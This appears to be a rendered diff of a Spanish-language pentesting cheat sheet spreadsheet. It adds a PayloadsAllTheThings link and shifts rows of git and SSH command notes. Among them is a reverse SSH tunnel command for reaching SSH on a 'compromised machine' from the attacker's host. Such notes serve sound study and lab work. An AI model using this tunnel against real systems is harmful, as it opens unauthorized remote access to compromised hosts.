

Before and after one commit to AmatheraeWorld/AmatheraeWorld, an Excel workbook: CheatSheet.xlsm, sheet General, drawn as a sheet; only a part is shown, gaps mark what is left out; values as stored, in another font and other column widths than the file's, no cell formats; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Add files via upload

```diff
--- a/CheatSheet.xlsm (sheet General)
+++ b/CheatSheet.xlsm (sheet General)
-Z20: (empty)
+Z20: https://github.com/swisskyrepo/PayloadsAllTheThings
-AA20: (empty)
+AA20: Lista de payload para aplicaciones Web, Seguridad, CTF, Pentesting
-Z21: GITHUB
+Z21: (empty)
-Z21:AB21 merged
-Z22: Comandos
+Z22: (empty)
-AA22: Descripcion
+AA22: (empty)
-AB22: Anotaciones
+AB22: (empty)
-Z23: git pull
+Z23: (empty)
-AA23: Para actualizar los repositorios
+AA23: (empty)
-Z24: git pull upstream master
+Z24: GITHUB
+Z24:AB24 merged
-AA24: Para actualizar los repositorios que hemos forkeado
+AA24: (empty)
-Z25: (empty)
+Z25: Comandos
-AA25: (empty)
+AA25: Descripcion
-AB25: (empty)
+AB25: Anotaciones
-Z26: SSH / SCP / PLINK
+Z26: git pull
-Z26:AB26 merged
-AA26: (empty)
+AA26: Para actualizar los repositorios
-Z27: Comandos
+Z27: git pull upstream master
-AA27: Descripcion
+AA27: Para actualizar los repositorios que hemos forkeado
-AB27: Anotaciones
+AB27: (empty)
-Z28: ssh -i id_rsa usuario@IP
+Z28: (empty)
-AA28: Tiene que tener minimo permisos chmod 600 si no nos dira que es insegura y no nos podremos autenticar
+AA28: (empty)
-AB28: Nos permite ssh sin contraseña con un certificado RSA
+AB28: (empty)
-Z29: ssh -R 4646:127.0.0.1:22 usuariolocal@IPLOCAL
+Z29: SSH / SCP / PLINK
+Z29:AB29 merged
-AA29: En nuestra maquina teniendo levantado servicio ssh podemos usar el archivo de identificacion rsa usuariocomprometido@localhost -p 4646 nos conectaremos al SSH que esta cerrado en la maquina comprometida
+AA29: (empty)
-AB29: Un ssh Reverso
+AB29: (empty)
-Z30: -fNT
+Z30: Comandos
-AA30: En ssh port ford warding -fNT hace la conexion en segundo plano sin entrar para no perder la consola
+AA30: Descripcion
-AB30: (empty)
+AB30: Anotaciones
```
Also changed, not shown: 43 edited cells and merged cells elsewhere in this sheet, sheet Interceptadores & Web, sheet Explotacion & Post-Explotacion, sheet Enumeracion & Escaneos, cell formats.
